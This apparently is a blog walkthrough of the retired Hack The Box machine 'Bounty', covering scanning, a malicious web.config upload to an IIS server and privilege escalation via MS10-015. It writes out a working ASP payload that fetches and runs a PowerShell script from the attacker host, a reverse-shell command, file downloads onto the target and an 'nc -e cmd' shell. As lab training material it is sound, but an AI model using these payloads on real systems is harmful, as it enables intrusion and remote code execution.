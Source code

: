 ```yaml
---
layout: post
title: "HTB-Bounty"
date: 2020-02-16 14:55:00 +0000
categories: HTB-Walkthrough
---
```


![bounty](/assets/img/bounty.png)

This is a great box from the HTB 'retired' list.

Diving straight in with nmap then...
`nmap -sV -Pn -v 10.10.10.93 |tee -a boun.txt`

```

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```

Not a great deal of choice...

Lets have a closer look.

```

root@kali:~/HTB/retired/bounty# nmap --script=vuln -p80 10.10.10.93
Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-26 07:45 EST
Nmap scan report for bounty.htb (10.10.10.93)
Host is up (0.092s latency).

PORT   STATE SERVICE
80/tcp open  http
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
| http-vuln-cve2015-1635:
|   VULNERABLE:
|   Remote Code Execution in HTTP.sys (MS15-034)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2015-1635
|       A remote code execution vulnerability exists in the HTTP protocol stack (HTTP.sys) that is
|       caused when HTTP.sys improperly parses specially crafted HTTP requests. An attacker who
|       successfully exploited this vulnerability could execute arbitrary code in the context of the System accoun>
|
|     Disclosure date: 2015-04-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-1635
|_      https://technet.microsoft.com/en-us/library/security/ms15-034.aspx

Nmap done: 1 IP address (1 host up) scanned in 273.70 seconds

```

Forced-browsing with gobuster...

`gobuster -u http://10.10.10.93 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 50 -x .aspx,.asp,.html`

```

=====================================================
Gobuster v2.0.0              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.93/
[+] Threads      : 50
[+] Wordlist     : /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Status codes : 200,204,301,302,307,403
[+] Extensions   : aspx,asp,html
[+] Timeout      : 10s
=====================================================
2019/11/13 09:38:51 Starting gobuster
=====================================================
Progress: 15215 / 882244 (1.72%)/transfer.aspx (Status: 200)
/UploadedFiles (Status: 301)
/uploadedFiles (Status: 301)
/uploadedfiles (Status: 301)
=====================================================
2019/11/13 10:13:53 Finished
=====================================================

```

/transfer.aspx is worth looking at closer....

we find that we can only upload web.config files...

we have to create an xml file and call it web.config

```xml

<?xml version="1.0" encoding="UTF-8"?>
<configuration>
       <system.webServer>
              <handlers accessPolicy="Read, Script, Write">
                     <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />        
              </handlers>
              <security>
                     <requestFiltering>
                            <fileExtensions>
                                   <remove fileExtension=".config" />
                            </fileExtensions>
                            <hiddenSegments>
                                   <remove segment="web.config" />
                            </hiddenSegments>
                     </requestFiltering>
              </security>
       </system.webServer>
</configuration>
<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c powershell -c iex(New-Object Net.WebClient).DownloadString('http://10.10.14.19/shell.ps1');")
o = cmd.StdOut.Readall()
Responsse.write(o)
%>

```

If you haven't already, its a good idea to get to know a little xml; particularly in the context of exploiting xmlrpc. It's also important to familiarize yourself with useful powershell commands.
The IEX DownloadString one above is very useful, as is the IWR (Invoke-WebRequest) one. You will find them invaluable when working with Windows targets.


Anyway...the exploit above requires us to host the shell.ps1 file so
get a webserver running.
Incidentally, the shell.ps1 file can be found in /usr/share/webshells...modify it to call us on 4444.
we can do this by appending the following to the file...
`Invoke-PowershellTcp -Reverse -IPAddress 10.10.14.19 -Port 4444`

so...the webserver to serve shell.ps1:

`python3 -m http.server 80`

Also get an nc shell running to catch the resulting reverse-shell connection...
`nc -nlvp 4444`

we get PowerShell command-line as user merlin....and access to the user flag.

```

PS C:\users\merlin\desktop> more user.txt
#  e29xxxxxxxxxxxxxxxxxxxf

```

The laziest way to continue would be to use windows-exploit-suggester.py

get nc.exe onto target..
`IWR -uri http://10.10.14.19/nc.exe -outfile c:\boo\nc.exe`

...then get cli shell...do
`systeminfo`

copy systeminfo to kali file sysinfo.txt

```

root@kali:~/HTB/retired/bounty# python wes.py --update
[*] initiating winsploit version 3.3...
[+] writing to file 2020-01-26-mssb.xls
[*] done
root@kali:~/HTB/retired/bounty# python wes.py --database 2020-01-26-mssb.xls --systeminfo sysinfo.txt
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (ascii)
[*] querying database file for potential vulnerabilities
[*] comparing the 0 hotfix(es) against the 197 potential bulletins(s) with a database of 137 known exploits
[*] there are now 197 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2008 R2 64-bit'
[*]
[M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
[M] MS13-005: Vulnerability in Windows Kernel-Mode Driver Could Allow Elevation of Privilege (2778930) - Important
[E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
[*]   http://www.exploit-db.com/exploits/35273/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5>
[*]   http://www.exploit-db.com/exploits/34815/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5>
[*]
[E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
[M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Importa>
[M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
[E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Im>
[E] MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
[*] done

```

select ms10-015 to try escalation...not listed here...but does work...I've used it recently and I've got it readily to hand.

`powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.19/priv.exe','C:\boo\priv.exe')"`


`c:\boo\priv.exe "c:\boo\nc.exe 10.10.14.19 999 -e cmd"`

```

C:\Users\Administrator\Desktop>type root.txt
type root.txt
c8xxxxxxxxxxxxxxxxxxxxea

```

It worked !!! If it had failed, I could have gone down the suggested list trying each, If the machine was patched against those vulnerabilities it would have required closer manual or scripted inspection. 

####################################################



